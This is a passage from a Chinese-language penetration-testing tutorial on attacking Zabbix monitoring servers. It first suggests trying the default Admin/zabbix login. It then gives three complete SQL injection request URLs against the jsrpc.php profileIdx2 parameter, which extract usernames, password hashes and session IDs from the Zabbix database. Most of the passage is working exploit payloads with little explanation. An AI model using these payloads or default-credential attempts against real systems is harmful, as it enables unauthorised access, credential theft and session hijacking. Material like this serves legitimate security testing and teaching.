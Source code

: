 输出结果，若包含：You have an error in your SQL syntax;表示漏洞存在。

**实操：**

zabbix 默认账户 Admin 密码 zabbix，可以先尝试一波弱口令可能有意外收获。如果不行可以利用 jsrpc 的 profileIdx2 参数 sql 注入，具体操作如下：

-   获取用户名

```plain
jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,name,0x7e)%20as%20char),0x7e))%20from%20zabbix.users%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```

[![](assets/1698897433-87e19ada71015f8f3f189ec4be168a68.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129181123-98a231c8-1290-1.png)

-   获取密码

```plain
jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,passwd,0x7e)%20as%20char),0x7e))%20from%20zabbix.users%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```

[![](assets/1698897433-97491557c35ce9ec68a97e42aaaa2087.png)](https://xzfile.aliyuncs.com/media/upload/picture/20191129181123-98e2263e-1290-1.png)

-   获取 sessionid

```plain
http://192.168.10.131/zabbix/jsrpc.php?sid=0bcd4ade648214dc&type=9&method=screen.get&timestamp=1471403798083&mode=2&screenid=&groupid=&hostid=0&pageFile=history.php&profileIdx=web.item.graph&profileIdx2=profileldx2=(select%201%20from%20(select%20count(*),concat((select(select%20concat(cast(concat(0x7e,sessionid,0x7e)%20as%20char),0x7e))%20from%20zabbix.sessions%20LIMIT%200,1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)&updateProfile=true&screenitemid=&period=3600&stime=20160817050632&resourcetype=17
```
